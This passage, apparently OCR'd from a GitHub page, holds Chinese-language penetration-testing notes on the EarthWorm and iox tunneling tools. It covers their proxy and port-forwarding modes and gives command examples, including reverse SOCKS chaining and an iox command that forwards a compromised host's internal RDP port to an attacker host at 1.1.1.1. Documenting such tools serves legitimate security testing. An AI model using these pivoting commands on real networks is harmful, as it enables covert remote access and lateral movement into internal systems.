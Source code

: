        - 访问攻击机的公网1080即可使用B主机提供的socks5代理

- 参数说明

    - 目前工具提供六种链路状态,可通过 -s 参数进行选定,分别为

        ssocksd   rcsocks   rssocks
        lcx_slave lcx_tran  lcx_listen

        其中 SOCKS5 服务的核心逻辑支持由 ssocksd 和 rssocks 提供,分别对应正向与反向socks代理

        其余的 lcx 链路状态用于打通测试主机同 socks 服务器之间的通路

    - lcx 类别管道

        lcx_slave  该管道一侧通过反弹方式连接代理请求方,另一侧连接代理提供主机
        lcx_tran   该管道,通过监听本地端口接收代理请求,并转交给代理提供主机
        lcx_listen 该管道,通过监听本地端口接收数据,并将其转交给目标网络回连的代理提供主机

        通过组合lcx类别管道的特性,可以实现多层内网环境下的渗透测试。

        - 下面是一个三级跳的本地测试例子

            ```
            ./ew -s rcsocks -l 1080 -e 8888
            ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
            ./ew -s lcx_listen -l 9999 -e 7777
            ./ew -s rssocks -d 127.0.0.1 -e 7777
            ```

            数据流向为   IE -> 1080 -> 8888 -> 9999 -> 7777 -> rssocks

    - 程序中的超时机制

        1.为了减少网络资源的消耗,程序中添加了超时机制,默认时间为10000毫秒(10秒),用户可以通过追加 -t 参数来调整这个值,单位为毫秒;在多级级联功能中,超时机制将以隧道中最短的时间为默认值
        2.单纯从设计原理上讲,多级级联的三种状态可以转发任意以TCP为基础的通讯服务,包括远程桌面／web服务 等


### iox

- 项目地址

    https://github.com/EddieIvan01/iox

- 用法

    -l/--local意为监听本地端口；-r/--remote意为连接远端主机

- 示例

    - 把内网3389端口转发到公网

        - 被控主机

            `./iox fwd -r 192.168.0.100:3389 -r *1.1.1.1:8888 -k 656565`

        - 攻击主机

            `./iox fwd -l *8888 -l 33890 -k 656565`

        然后连接攻击机(1.1.1.1)的 33890 端口即可

    - socks5代理
